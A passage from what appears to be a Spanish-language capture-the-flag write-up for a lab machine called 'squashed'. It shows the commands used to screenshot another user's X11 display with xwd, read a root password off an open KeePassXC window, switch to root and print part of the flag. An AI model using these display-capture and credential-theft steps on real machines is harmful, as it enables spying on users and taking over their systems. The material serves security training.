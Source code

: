 El comando `xwininfo` obtiene información sobre las ventanas abiertas de X11, y por lo que vemos, `ross` tiene una ventana abierta con nombre `Passwords - KeePassXC`, definitivamente tenemos que ver eso.

## Capturing ross's screen
Hay una utilidad para X11 llamada `xwd` que puede sacar una captura de pantalla a un display. Para ello ejecutaremos el comando: `xwd -root -screen -silent -display :0 > image`
```bash
alex@squashed:/home/alex$ xwd -root -screen -silent -display :0 > image
alex@squashed:/home/alex$ image 
image: XWD X Window Dump image data, "xwdump", 800x600x24
```

Este formato lo podemos convertir a `png` con la herremienta `convert`, que viene con el conjunto de utilidades `imagemagick`.
Exportamos el archivo generado a nuestra máquina y lo convertimos:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/ae641419-820d-4ae2-8690-e604ff12dd8d)


La imagen resultante la podemos ver, también si queremos, con otra herramienta de la suite de `imagemagick` llamada `display`, veríamos esto:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/e2137b3b-8113-48cb-9866-0dd294350fbe)

¡La contraseña del usuario root!

### Getting access

Pruebo esta credencial descubierta intentando iniciar sesión como `root` y obtenemos acceso:
```bash
alex@squashed:/home/alex$ su root 
Password:
root@squashed:/home/alex# id 
uid=0(root) gid=0(root) groups=0(root)
```

A partir de este punto solo quedaría obtener la flag localizada en `/root/root.txt`:
```bash
root@squashed:/home/alex# head -c 15 /root/root.txt; echo
beae383876bd199
```

